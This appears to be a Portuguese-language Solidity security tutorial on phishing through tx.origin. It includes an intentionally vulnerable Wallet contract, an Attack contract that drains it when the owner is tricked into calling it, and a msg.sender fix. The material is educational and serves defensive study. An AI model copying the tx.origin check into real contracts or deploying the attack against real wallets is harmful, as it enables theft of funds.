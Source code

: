 # Phishing com tx.origin

#### `Qual é a diferença entre` `msg.sender` e `tx.origin`? <a href="#whats-the-difference-between-msgsender-and-txorigin" id="whats-the-difference-between-msgsender-and-txorigin"></a>

Se o contrato A chama o B, e B chama C, em C `msg.sender` é B e `tx.origin` é A.

#### Vulnerabilidade <a href="#vulnerability" id="vulnerability"></a>

Um contrato malicioso pode enganar o proprietário de um contrato, chamando uma função que somente o proprietário seria capaz de chamar.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.3;

/*
Carteira é um contrato simples em que somente o proprietário deve ser capaz de
transferir Ether para outro endereço. Wallet.transfer() usa tx.origin para confirmar
 que quem chama é o proprietário. Vamos ver como podemos hackear esse contrato
*/

/*
1. Alice implanta Wallet com 10 Ether
2. Eve implanta Attack com o endereço do contrato da Wallet de Alice.
3. Eve engana Alice com uma chamada Attack.attack()
4. Eve rouba com êxito Ether da carteira da Alice

O que aconteceu?
Alice foi enganada com uma chamada Attack.attack(). Dentro de Attack.attack(),
foi solicitada uma transferência de todos os fundos da carteira da Alice
para o endereço da Eve. Já que tx.origin na Wallet.transfer() é igual ao
do endereço da Alice, a transferência foi autorizada. A carteira transferiu
todo Ether para Eve.
*/

contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
```

#### Técnicas preventivas <a href="#preventative-techniques" id="preventative-techniques"></a>

Use `msg.sender` ao invés de `tx.origin`

```
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call.value(_amount)("");
  require(sent, "Failed to send Ether");
}
```
